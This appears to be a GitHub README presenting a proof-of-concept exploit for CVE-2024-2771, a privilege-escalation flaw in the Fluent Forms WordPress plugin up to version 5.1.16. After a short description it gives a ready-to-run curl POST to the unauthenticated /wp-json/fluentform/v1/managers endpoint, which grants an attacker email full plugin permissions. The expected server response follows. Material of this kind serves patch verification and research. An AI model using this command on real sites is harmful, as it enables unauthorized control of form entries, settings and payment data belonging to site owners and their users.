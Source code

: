 # CVE-2024-2771-PoC
CVE-2024-2771 Proof-of-Concept 

The Contact Form Plugin by Fluent Forms for Quiz, Survey, and Drag & Drop WP Form Builder plugin for WordPress is vulnerable to privilege escalation due to a missing capability check on the /wp-json/fluentform/v1/managers REST API endpoint in all versions up to, and including, 5.1.16. This makes it possible for unauthenticated attackers to grant users with Fluent Form management permissions which gives them access to all of the plugin's settings and features. This also makes it possible for unauthenticated attackers to delete manager accounts.

**Prerequisites**
- WordPress site with Contact Form – Fluent Forms ≤ 5.1.16 active.
- Attacker can reach the site’s REST API (no authentication needed).

**Exploit Command**
```
# 1. Grant full Fluent Forms permissions to an arbitrary email
curl -i -X POST "http://TARGET/wp-json/fluentform/v1/managers" \
     -H "Content-Type: application/json" \
     -d '{
           "manager": {
             "email": "attacker@example.com",
             "permissions": [
               "fluentform_dashboard_access",
               "fluentform_forms_manager",
               "fluentform_entries_viewer",
               "fluentform_manage_entries",
               "fluentform_view_payments",
               "fluentform_manage_payments",
               "fluentform_settings_manager",
               "fluentform_full_access"
             ]
           }
         }'
```

Expected Response
```
HTTP/1.1 200 OK
{
  "message": "Manager has been saved.",
  "manager": {
    "id": 2,
    "email": "attacker@example.com",
    "permissions": [
      "fluentform_dashboard_access",
      "fluentform_forms_manager",
      "fluentform_entries_viewer",
      "fluentform_manage_entries",
      "fluentform_view_payments",
      "fluentform_manage_payments",
      "fluentform_settings_manager",
      "fluentform_full_access"
    ]
  }
}

```
**Screenshot**
<img width="1451" height="603" alt="Screenshot 2025-08-01 105801" src="https://github.com/user-attachments/assets/d7fdcaf1-1583-4473-a075-e8ca998c29a8" />

